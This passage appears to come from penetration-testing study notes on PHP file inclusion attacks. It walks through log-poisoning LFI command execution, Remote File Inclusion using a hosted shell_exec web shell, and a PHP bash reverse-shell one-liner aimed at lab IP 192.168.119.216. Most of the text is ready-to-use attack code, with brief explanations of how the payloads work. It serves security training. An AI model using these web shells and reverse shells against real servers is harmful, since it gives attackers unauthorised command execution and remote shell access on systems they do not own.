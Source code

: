    ```bash
   # Whatever command follows the 'cmd' variable is executed locally on the webserver inline with the log file.  If the log file is junked up, you will need to look for the output among all the other lines.
   http://192.168.216.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
   ```

IMPORTANT NOTE:  When using code in your URL, use Burp Suite to encode it into URL format.  It should encode EVERY character in the `%` format code.  There are some URL Encoders on the Internet that will encode just the special characters and this can have unexpected issues here.

#### Remote File Inclusion

In order to perform RFI, the `allow_url_include` flag for PHP must be set to `on`.  

We can create a file on our remote server (attacker's machine) with code to be executed by the target server similar to the LFI above and host it on a webserver.

```bash
# Create a file on attacker machine with this code:
<?php echo shell_exec($_GET['cmd']); ?>

# I have no idea what this was for
# <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

# Host the file on attacker machine using webserver
sudo python2 -m SimpleHTTPServer 80
```

The code above begins with `<?php` and ends with ``?>``. The bulk of the PHP payload is a simple `echo` command that will print output to the page. This output is first wrapped in `pre` HTML tags, which preserve any line breaks or formatting in the results of the function call. Next is the function call itself, `shell_exec`, which will execute an OS command. Finally, the OS command is retrieved from the “cmd” parameter of the GET request with `_GET[‘cmd’]`. This one line of PHP will let us specify an OS command via the query string and output the results in the browser.  

At this point, we load our remote file the same we loaded local files with LFI

```bash
http://192.168.216.10/menu.php?file=http://192.168.119.216/rfi.php
```



#### PHP Reverse Shell One-Liner (Linux)

A convenient one-liner to put in a PHP file and get a reverse shell on a Linux machine:

```php
payload = "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/192.168.119.216/8000 0>&1'\");?>"
    
# Note:  You need to escape the double-quotes inside the command.  Port is specified with a slash instead of a colon
```

#### PHP CMD Shells

A PHP CMD shell is a PHP script that allows you to pass commands to the server as a parameter to the PHP page, usually in the form of `http://site.com/page.php?cmd=yourcommand`
